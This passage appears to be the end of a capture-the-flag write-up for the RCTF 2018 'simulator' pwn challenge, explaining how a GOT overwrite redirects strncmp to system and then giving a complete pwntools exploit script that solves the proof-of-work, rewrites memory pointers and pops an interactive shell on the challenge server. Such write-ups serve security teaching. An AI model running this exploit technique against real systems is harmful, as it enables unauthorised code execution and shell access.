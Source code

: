 When calling `puts`, the simulator will restart and a line of input will be passed as first argument to `strncmp`, which is now `system`.
Now we can call `system("sh")` and pop a shell:

```
$ cat flag
RCTF{5imu_s1mu_sinnu_siml_l_simulator!_7a3dac}
```

### Exploit code

```python
#!/usr/bin/env python2

from pwn import *
import itertools
from hashlib import sha256

def pow(todo=False):
    if(todo ==  True):
        conn = remote("simulator.2018.teamrois.cn", 3131)
        chall = conn.recvuntil("\n").split("\n")[0]
        alpha = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
        for a,b,c,d in itertools.product(alpha, repeat=4):
            if(sha256(chall + a + b + c + d).digest().startswith('\0\0\0') == True):
                sol = a + b + c + d
                break;
        conn.sendline(sol)
        return conn
    else:
        return process('./simulator')

STRCMP_LIBC_OFF = 0x1396b0
SYSTEM_OFF = 0x3a940
MAIN = 0x0804ac58

# strncmp = system()
# puts = MAIN
code = """
li $t0, 2155911681
lw $t1, $t0
sub $t1, $t1, {}
add $t1, $t1, {}
li $t0, 2155911689
sw $t1, $t0
li $t0, 2155911684
li $t1, {}
sw $t1, $t0
""".format(STRCMP_LIBC_OFF, SYSTEM_OFF, MAIN)

prog = log.progress('Solving PoW')
conn = pow(True)
prog.success()

prog = log.progress('Sending code')
conn.sendline(code)
conn.sendline('END')
prog.success()

log.info('Popping shell')
conn.sendline('sh')

conn.interactive()
```
